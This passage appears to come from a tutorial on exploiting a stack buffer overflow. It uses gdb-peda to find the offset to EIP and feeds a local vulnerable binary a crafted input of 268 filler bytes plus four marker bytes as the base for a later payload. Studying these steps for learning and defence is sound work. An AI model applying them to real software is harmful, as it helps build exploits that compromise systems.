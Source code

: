 ![buffer overflow 5](/assets/images/15/2021-10-20_00-45.png){:class="img-responsive"}          

Based on the `eip` value (`0x41332541`), it's also possible to identify the correct offset to the `eip`:

```bash
gdb-peda$ pattern offset 0x41332541
```

![buffer overflow 6](/assets/images/15/2021-10-20_00-49.png){:class="img-responsive"}          

Let's use this value for create new input (which will serve as the base for our future payload) and run vulnerable binary with it:
```bash
gdb -q ./vuln
gdb-peda$ r $(python3 -c 'print("A" * 268 + "B" * 4)')
```